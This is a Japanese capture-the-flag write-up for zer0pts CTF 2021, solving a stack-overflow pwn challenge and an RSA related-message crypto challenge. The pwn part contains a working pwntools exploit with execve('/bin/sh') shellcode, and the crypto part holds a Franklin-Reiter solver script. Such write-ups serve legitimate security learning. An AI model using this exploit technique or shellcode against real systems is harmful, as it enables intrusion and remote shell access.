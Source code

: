 ## ポエム

### tl;dr

3/6 09:00 〜 3/7 21:00 に開催された zer0pts CTF 2021 にチーム 0xdef12e (ソロ) で参加しました。
ptr-yudaiさんには SECCON Beginners の Discord で Villager B 関連で相談させて頂いたり、Paken CTF 2020でも色々（）と教えて頂いたりと個人的に一番お世話になっている CTF Player なので結構前から楽しみにしていたイベントです。

問題は宣言されている通り、Guess 要素が本当になかったです。~~テレビの謎解きもこれくらいを目指してくれ~~ 強いて言うなら、Janken VS yoshiking で本当にじゃんけんに 100 回連続で勝てれば...？（つらすぎ）

さて、結果はと言うと Welcome とかを除くと 2 完でした。順位は 131/951 です（得点を得たチームのみ）。かな〜り微妙ですが、CTF 初心者としましては割と頑張った方なんです！！（主張）

![diploma](diploma.png)

### 雑

問題はもちろん面白かったですが、それ以外で一番面白かったのは Discord での @everyone Injection があった事ですね。#solve-notification で 

> `0xdef12e` solved `Welcome`

みたいな感じで誰がどれを解いたかが通知されるんですが、ID を ``a`@everyone`` にして ``` ` ``` を閉じて @everyone メンションをした人がいました。その人はイエローカードを食らっていましたが、個人的に CTF らしくて面白かったです。

## [pwn] Not Beginner's Stack

ご親切にコードと初心者向けの説明書が同封されています。

<details>
<summary>main.S</summary>

```
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt
  
section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024
```
</details>

<details>
<summary>Meta data</summary>

```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
</details>

<details>
<summary>result of objdump</summary>

```
00000000004000b0 <_start>:
  4000b0:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000b7:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4000cc
  4000be:	00 cc 00 40 00 
  4000c3:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4000ca:	eb 1f                	jmp    4000eb <notvuln>

00000000004000cc <..@2.return_address>:
  4000cc:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000d3:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4000eb
  4000da:	00 eb 00 40 00 
  4000df:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4000e6:	e9 33 01 00 00       	jmp    40021e <exit>

00000000004000eb <notvuln>:
  4000eb:	c8 00 01 00          	enter  0x100,0x0
  4000ef:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000f6:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x40010b
  4000fd:	00 0b 01 40 00 
  400102:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400109:	eb 71                	jmp    40017c <vuln>

000000000040010b <..@4.return_address>:
  40010b:	ba 06 00 00 00       	mov    edx,0x6
  400110:	be 28 02 60 00       	mov    esi,0x600228
  400115:	31 ff                	xor    edi,edi
  400117:	ff c7                	inc    edi
  400119:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400120:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x400138
  400127:	00 38 01 40 00 
  40012c:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400133:	e9 cb 00 00 00       	jmp    400203 <write>

0000000000400138 <..@5.return_address>:
  400138:	ba 00 01 00 00       	mov    edx,0x100
  40013d:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
  400144:	31 ff                	xor    edi,edi
  400146:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  40014d:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x400165
  400154:	00 65 01 40 00 
  400159:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400160:	e9 85 00 00 00       	jmp    4001ea <read>

0000000000400165 <..@6.return_address>:
  400165:	31 c0                	xor    eax,eax
  400167:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  40016e:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400175:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

000000000040017c <vuln>:
  40017c:	c8 00 01 00          	enter  0x100,0x0
  400180:	ba 06 00 00 00       	mov    edx,0x6
  400185:	be 28 02 60 00       	mov    esi,0x600228
  40018a:	31 ff                	xor    edi,edi
  40018c:	ff c7                	inc    edi
  40018e:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400195:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4001aa
  40019c:	00 aa 01 40 00 
  4001a1:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4001a8:	eb 59                	jmp    400203 <write>

00000000004001aa <..@8.return_address>:
  4001aa:	ba 00 10 00 00       	mov    edx,0x1000
  4001af:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
  4001b6:	31 ff                	xor    edi,edi
  4001b8:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001bf:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4001d4
  4001c6:	00 d4 01 40 00 
  4001cb:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4001d2:	eb 16                	jmp    4001ea <read>

00000000004001d4 <..@9.return_address>:
  4001d4:	c9                   	leave  
  4001d5:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  4001dc:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001e3:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

00000000004001ea <read>:
  4001ea:	31 c0                	xor    eax,eax
  4001ec:	0f 05                	syscall 
  4001ee:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  4001f5:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001fc:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

0000000000400203 <write>:
  400203:	31 c0                	xor    eax,eax
  400205:	ff c0                	inc    eax
  400207:	0f 05                	syscall 
  400209:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  400210:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400217:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

000000000040021e <exit>:
  40021e:	b8 3c 00 00 00       	mov    eax,0x3c
  400223:	0f 05                	syscall 
```
</details>

`vuln` を呼び出して 0x1000 文字読み込んだ後、`notvuln` を呼び出して 0x100 文字読み込むというプログラムです。

0x100 文字のバッファに 0x1000 文字読み込む単純な Buffer Over Flow が起きているのは明らかです。しかし、残念ながら大量に入力しても Segmentation Fault にはなりません。どうやら単純な ROP は出来なさそうです。

と言うのも、objdump の結果を見てみると、`ret` の文字がありません。なんてこった！ 手掛かりを探るため、gdb で動的解析をしてみます。

![gdb](gdb.png)

早速 `notvuln` の読み込み部分で気になる所が。読み込み先である第二引数のアドレスが、`vuln` で入力した値に含まれるっぽい...? これはつまり、**任意のアドレスに任意の値を代入できる** という事を意味します。

```
  40013d:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
```

もう少し詳しく解析すると、

- `vuln` での入力から `notvuln` の `rbp` までのオフセットは 0x100（正確には、`vuln` の `saved rbp`）
- 第二引数になる `rsi` は `rbp` - 0x100　→　つまり、入力したいアドレス + 0x100 を `rbp` にすれば良い

という事が分かります。では、どこに何を入れれば `rip` を奪取できるかを考えてみましょう。

![gdb2](gdb2.png)

これは、プログラムが `exit` で終了する直前の様子です。0x600234 + `rcx` * 8 、つまり 0x60023C から `rip` を読み込んでジャンプしています。そして、**0x60023c は writable & excutable** です。

```
00400000-00401000 r-xp 00000000 08:07 14683508                           /home/defineprogram/Desktop/CTF/zer0ptsCTF2021/pwn/not beginner/not_beginners_stack/chall
00600000-00601000 rwxp 00000000 08:07 14683508                           /home/defineprogram/Desktop/CTF/zer0ptsCTF2021/pwn/not beginner/not_beginners_stack/chall
7ffff7ffb000-7ffff7ffe000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffe000-7ffff7fff000 r-xp 00000000 00:00 0                          [vdso]
7ffffffde000-7ffffffff000 rwxp 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

という事は、スタックの状態を以下のようにするとシェルを取れそうです！

- 0x60023c : 0x60023c + 0x8 = 0x600244 (シェルコードのアドレス)
- 0x600244 : shellcode

このようにすると、`jmp    QWORD PTR [rcx*8+0x600234]` で `rip` に 0x600244 がセットされ、シェルコードが実行されます！

<details>
<summary>Exploit Code</summary>

```py
from pwn import *
elf=ELF("./chall")
p=remote("pwn.ctf.zer0pts.com", 9011)

payload=b"A"*256+p64(0x60023c+0x100)
p.sendlineafter(b"Data: ",payload)
payload=p64(0x600244)+b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
p.sendlineafter(b"Data: ",payload)

p.interactive()
```
</details>

FLAG : `zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}`

解くのに 1 時間くらい掛かってしまいました。

## [crypto] war(sa)mup

> Do you know RSA? I know.

セグメント木を知っていますか？僕は知っています。（定形文）

さて、重要な部分を抜粋すると以下です。

```py
m = pad(int.from_bytes(flag, "big"), n)
c1 = pow(m, e, n)
c2 = pow(m // 2, e, n)

print("n =", n)
print("e =", e)
print("c1=", c1)
print("c2=", c2)
```

```
n = 113135121314210337963205879392132245927891839184264376753001919135175107917692925687745642532400388405294058068119159052072165971868084999879938794441059047830758789602416617241611903275905693635535414333219575299357763227902178212895661490423647330568988131820052060534245914478223222846644042189866538583089
e = 1337
c1= 89077537464844217317838714274752275745737299140754457809311043026310485657525465380612019060271624958745477080123105341040804682893638929826256518881725504468857309066477953222053834586118046524148078925441309323863670353080908506037906892365564379678072687516738199061826782744188465569562164042809701387515
c2= 18316499600532548540200088385321489533551929653850367414045951501351666430044325649693237350325761799191454032916563398349042002392547617043109953849020374952672554986583214658990393359680155263435896743098100256476711085394564818470798155739552647869415576747325109152123993105242982918456613831667423815762
```

`m//2` が気になりますね。もし $m$ が $2$ で割り切れるなら 

$$
(m/2)^e\ mod\ n \equiv \frac{m^e}{2^e}\ mod\ n
$$

ですから、これに $2^e$ を掛けた値と `c1` は一致するはずです。逆に、割り切れない場合は $2^e$ を掛けた値は 

$$
(m-1)^e\ mod\ n
$$

となるはずです。実際に計算すると、$2^e$ を掛けた値は `c1` と一致しません。つまり、以下の値が判明します。

- $m^e\ mod\ n$
- $(m-1)^e\ mod\ n$

平文が非常に近いですね。こういう時に使える攻撃手法がないかな〜と思って調べると、[Related Message Attack の記事](https://hackmd.io/@Xornet/B16W75IND) がヒットしました。

理解は後日する事にして（最悪）、sage math のスクリプトがあるのでコピペして（最悪 2）ちょっと改変すると、FLAG が表示されました！

```py
from binascii import hexlify, unhexlify
from string import printable


def str_to_num(s):
    return int(hexlify(s), 16)


def num_to_str(s):
    hexed = hex(s)[2:]
    if len(hexed) % 2 == 1:
        hexed = "0" + hexed
    return unhexlify(hexed)


def gcd(a, b):
    while b:
        a, b = b, a % b
    return a.monic()


def franklinreiter(c_1, c_2, e_1, e_2, N, a, b):
    P.<X> = PolynomialRing(Zmod(N))
    g_1 = X^e_1 - c_1
    g_2 = (a*X + b)^e_2 - c_2
    # get constant term
    result = -gcd(g_1, g_2).coefficients()[0]

    return result
 
n = 113135121314210337963205879392132245927891839184264376753001919135175107917692925687745642532400388405294058068119159052072165971868084999879938794441059047830758789602416617241611903275905693635535414333219575299357763227902178212895661490423647330568988131820052060534245914478223222846644042189866538583089
e = 1337
c1= 89077537464844217317838714274752275745737299140754457809311043026310485657525465380612019060271624958745477080123105341040804682893638929826256518881725504468857309066477953222053834586118046524148078925441309323863670353080908506037906892365564379678072687516738199061826782744188465569562164042809701387515
c2= 18316499600532548540200088385321489533551929653850367414045951501351666430044325649693237350325761799191454032916563398349042002392547617043109953849020374952672554986583214658990393359680155263435896743098100256476711085394564818470798155739552647869415576747325109152123993105242982918456613831667423815762
c3=c2*pow(2,e,n)%n

plain=num_to_str(franklinreiter(c1,c3,e,e,n,1,-1))
print(plain)
```

```
b'\x02\x81\xae\xed \xdd\x07\x12;\x99\xc7d:\x99\x1a8\x16\xfe\xe6<\x18\x1dw\xea&\xfb\xfc\x8a\xa7\xa8\xba\xfa\xd8\xbe\xdf\x01\x13\xcb\xd3\x99\x9c\xf3_\x18qw\xb99}\'Q\xd7~\x03&^\xcd\x9aw\xf0\xef\xb5\x04\x1b\xb7\n\xe1\xcd"\x95ff]\x0c(H\x99\xb5\xed\xc3\x82\x9dl\xe4\x8c\xddx\xfd\x00zer0pts{y0u_g07_47_13457_0v3r_1_p0in7}'
```

FLAG : `zer0pts{y0u_g07_47_13457_0v3r_1_p0in7}`

## おしまい

い　か　が　で　し　た　か　？　笑

最近は CTF に傾倒しがちですが、そろそろ競プロも復帰しようと思っています。多分もう 2 ヶ月くらい rated 参加してないので... ← 引退か？

取り敢えず、残り 2 日間の期末を乗り越えるぞ！！（なお、破滅確定）